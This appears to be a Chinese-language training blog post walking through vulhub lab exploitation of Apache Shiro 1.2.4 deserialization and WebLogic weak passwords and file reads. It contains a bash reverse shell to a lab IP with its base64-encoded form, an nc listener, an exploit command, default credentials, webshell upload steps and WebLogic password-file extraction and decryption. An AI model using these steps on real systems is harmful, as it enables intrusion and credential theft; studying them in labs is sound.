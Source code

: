 ```yaml
---
title: 【网络安全1x08】安恒厂家网络安全培训 --- day8
date: 2020-07-08 19:55:08
tags: [网络安全, kali, vulhub]
---
```


上午讲vulhub靶机，有Shiro 1.2.4反序列化漏洞，Weblogic weak password。

下午讲恶意样本分析指南。

<!-- more -->

# Apache Shiro 1.2.4反序列化漏洞（CVE-2016-4437）

## 影响版本

* Apache Shiro <= 1.2.4

## 漏洞原理

Apache Shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：得到rememberMe的cookie值 >  Base64解码–>AES解密–>反序列化。然而AES的密钥是硬编码的，就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞。

## 漏洞特征

shiro反序列化的特征：在返回包的 Set-Cookie 中存在 rememberMe=deleteMe 字段。

## 漏洞利用

1. base64加密反弹shell命令：

``` bash
#明文
bash -i >& /dev/tcp/192.168.137.128/4444 0>&1

#密文
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEzNy4xMjgvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}
```

2. 攻击机开启nc监听：

``` bash
nc -lvp 4444
```

3. 执行命令，反弹shell：

``` bash
python3 shiro_exploit.py -t 3 -u http://192.168.137.129:8080 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEzNy4xMjgvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}"
```

# Weblogic weak password

## 测试环境

本环境模拟了一个真实的weblogic环境，其后台存在一个弱口令，并且前台存在任意文件读取漏洞。分别通过这两种漏洞，模拟对weblogic场景的渗透。

* Weblogic版本：10.3.6(11g)
* Java版本：1.6

## 弱口令

环境启动后，访问http://your-ip:7001/console，即为weblogic后台。

本环境存在弱口令：
* weblogic
* Oracle@123

weblogic常用弱口令： http://cirt.net/passwords?criteria=weblogic

后台上传webshell

获取到管理员密码后，登录后台。点击左侧的部署，可见一个应用列表：

上传war包。

填写应用名称：

继续一直下一步，最后点完成。

成功获取webshell：

## 任意文件读取漏洞的利用

假设不存在弱口令，如何对weblogic进行渗透？

本环境前台模拟了一个任意文件下载漏洞，访问http://your-ip:7001/hello/file.jsp?path=/etc/passwd可见成功读取passwd文件。那么，该漏洞如何利用？

## 读取后台用户密文与密钥文件

weblogic密码使用AES（老版本3DES）加密，对称加密可解密，只需要找到用户的密文与加密时的密钥即可。这两个文件均位于`base_domain`下，名为`SerializedSystemIni.dat`和`config.xml`，在本环境中为`./security/SerializedSystemIni.dat`和`./config/config.xml`（基于当前目录`/root/Oracle/Middleware/user_projects/domains/base_domain）`。

`SerializedSystemIni.dat`是一个二进制文件，所以一定要用burpsuite来读取，用浏览器直接下载可能引入一些干扰字符。在burp里选中读取到的那一串乱码，右键copy to file就可以保存成一个文件：

`config.xml`是`base_domain`的全局配置文件，所以乱七八糟的内容比较多，找到其中的`<node-manager-password-encrypted>`的值，即为加密后的管理员密码，不要找错了：

## 解密密文

然后使用本环境的decrypt目录下的`weblogic_decrypt.jar`，解密密文（或者参考这篇文章：http://cb.drops.wiki/drops/tips-349.html ，自己编译一个解密的工具）：


# 恶意样本分析指南